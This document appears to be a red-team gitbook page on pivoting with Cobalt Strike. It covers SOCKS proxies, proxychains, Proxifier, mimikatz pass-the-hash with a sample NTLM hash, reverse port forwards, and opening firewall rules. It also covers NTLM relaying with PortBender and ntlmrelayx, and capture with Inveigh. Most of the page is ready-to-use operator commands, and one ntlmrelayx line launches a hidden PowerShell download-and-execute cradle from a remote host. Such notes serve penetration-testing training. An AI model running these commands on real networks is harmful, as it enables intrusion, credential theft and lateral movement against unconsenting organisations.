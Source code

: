 ```yaml
---
title: Pivoting
category: Red Team
order: 10
---
```


Pivoting are post-explotaiton techniques that allows us to access to the network where we have just landed.

# SOCKS Proxies

A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy".

It's very useful when we need to leverage with others toolsets that are only available in linux such as impacket.

> **Note**: The port will binding on the Team Server.

To start a socks proxy we can use:

* SOCKS4:
```
beacon> socks [port]
```
* SOCKS5 with password:
```
beacon> socks [post] socks5 disableNoAuth [socks_user] [socks_password] enableLogging
```

Finally we can access it with `proxychains`, but first we need to configure `/etc/proxychains.conf` file.

* SOCKS4:
```
socks4 127.0.0.1 [port]
```
* SOCKS5 with password:
```
socks5 127.0.0.1 [port] [socks_user] [socks_password]
```

```
proxychains -q [command] [arguments]
```

# Windows Apps

It is also possible to tunnel Windows GUI apps using `proxifier`.

* [https://www.proxifier.com/](https://www.proxifier.com/)

With Proxifier we can specify which application we want to tunneling.

To use Windows authentication via a proxy, the application needs to be launched as a user from the target domain.

```
runas /netonly /user:CORP\user C:\Tools\program.exe`
```

It can also be achieved with `mimikatz`.

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
```

Or we can use powershell credentials:

```powershell
$cred = Get-Credential
Get-ADComputer -Server 10.10.10.10 -Credential $cred
```

# Port Forwarding

I will not explain what is a port forwarding since is detailed on `Post-Exploitation` section on this gitbook, but we will discuss how to execute it from Cobalt Strike.

```
beacon> rportfwd 8080 10.10.10.10 80
[+] started reverse port forward on 8080 to 10.10.10.10:80
```

To stop the forwarding:

```
beacon> rportfw stop 8080
```

> **Notes**:
> * Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destintation.
> * The traffic is tunnelled inside the Beacon's C2 traffic, not over separate sockets.
> * You don't need to be a local admin to create reverse port forwards on high ports.

`rportfwd_local` will tunnel the traffic to the machine running Cobalt Strike client instead of the Team Server.

```
beacon> rportfwd_local 443 127.0.0.1 443
[+] started reverse port forward on 443 to mvc1009 -> 127.0.0.1:443
```

> **Alert**: Be careful, you must create an allow rule before running a reverse port forward.
>
> `beacon> powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080`
> `beacon> powershell Remove-NetFirewallRule -DisplayName "Test Rule"`

# NTLM Relaying

During an on-premise assessments, NTLM relaying with tools like `responder` and `ntlmrelayx` is quite trivial. However in red team assessment, is not quite trivial because port 445 is always bound and in use by Windows machines.

It's still possible with Cobalt Strike, but requires the use of multiple capabilities.

1. Use a driver `WinDivert` to redirect traffic destinated for port 445 to another port (4445). It requires local admin access in order for loading the driver. Upload the driver to `C:\Windows\System32\drivers` since this is where most windows drivers go.

```
beacon> cd C:\Windows\System32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```
 * PortBender: [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)

Load `PortBender.cna` aggressor script and redirect the traffic.

```
beacon> PortBender redirect 445 4445
```

2. Create a reverse port forwarding that will then relay the traffic from port 4445 to port 445 on the Team Server where `ntlmrelayx` will be waiting.

```
beacon> rportfwd 4445 127.0.0.1 445
```

3. A SOCKS proxy is required to allow `ntlmrelayx` to send traffic back into the network.

```
beacon> socks 5566
```

4. Finally on the Team Server execute the `ntlmrelayx` tool, by default will execute `secretsdump` to dump local SAM hashes on the target machine.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server
```

Instead of dumping SAM we can execute payloads such as beacons.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "IEX(New-Object Net-WebClient).DownloadString(\"http://10.10.10.10/a\")"'
```

To stop `PortBender` just kill the process.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    1240  PortBender

beacon> jobkill 0
beacon> kill 1240
```

# NTLM Capturing

We can use `Inveigh` to listen to incoming requests, similar to `Responder` but in .NET.

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

`Inveigh` should be run as a local admin.

```
beacon> execute-assembly C:\Tools\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```

It it also possible use the WinDivert, rportfwd and smbserver to capture the NetTLMHash.
